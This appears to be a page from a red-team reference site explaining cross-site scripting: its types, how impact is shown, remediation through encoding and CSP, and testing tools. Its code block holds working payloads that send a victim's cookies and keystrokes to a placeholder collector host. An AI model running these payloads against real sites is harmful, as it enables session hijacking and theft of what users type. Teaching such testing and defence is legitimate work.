

repository: EvolvingSysadmin/Red-Team-Toolkit · page: initial-access/xss/index.html · generator: mkdocs · copyright: Copyright © Ryan Heavican

# XSS

Cross-Site Scripting: injecting JavaScript into a web application so it runs in other users' browsers.

## Why It Matters

XSS runs attacker-controlled script in the context of a trusted site, which can steal session cookies, capture keystrokes, perform actions as the victim, or deface content. It appears wherever user input is reflected or stored without proper encoding.

## Reference

### Types

| Type | Description |
| :--- | :--- |
| Reflected | Input in a request is echoed into the response without encoding; delivered via a crafted link |
| Stored (persistent) | Payload is saved by the app (database, comment, profile) and runs for every visitor |
| DOM-based | Client-side JavaScript writes untrusted input into the page (for example via `eval` or `innerHTML`) |
| Blind | Payload fires somewhere the tester cannot see, confirmed with an out-of-band tool like XSS Hunter |

### Proving and Measuring Impact

A harmless popup proves the injection point; the others show real impact in an authorized test.

```javascript
// proof of concept
alert('XSS');

// session theft (sends the victim's cookie to a collector)
fetch('https://collector.example/steal?c=' + btoa(document.cookie));

// keylogger
document.onkeypress = function(e){ fetch('https://collector.example/k?k=' + btoa(e.key)); };
```

Filter-evasion payloads (polyglots that fire in multiple contexts) are catalogued in the PortSwigger and PayloadsAllTheThings cheat sheets linked below.

### Remediation

* **Context-aware output encoding** when rendering user input (HTML, attribute, JavaScript, URL contexts each differ)
* **Content Security Policy (CSP)** to restrict where scripts can load from and block inline script
* **Input validation** with allowlists
* Use framework features that auto-encode output, and avoid `eval`, `innerHTML`, and `document.write` on untrusted data

## Tools

| Tool | Use |
| :--- | :--- |
| [Burp Suite](burp-suite.md) / [OWASP ZAP](owasp-zap.md) | Finding and testing injection points |
| [XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter-express) | Catching blind XSS out of band |

## How I Use It

I confirm an injection point with a harmless `alert`, identify the context it lands in (HTML body, attribute, or script), then pick an encoding-appropriate payload. For reporting I demonstrate concrete impact such as session theft in a controlled way, and recommend output encoding plus CSP as the fix.
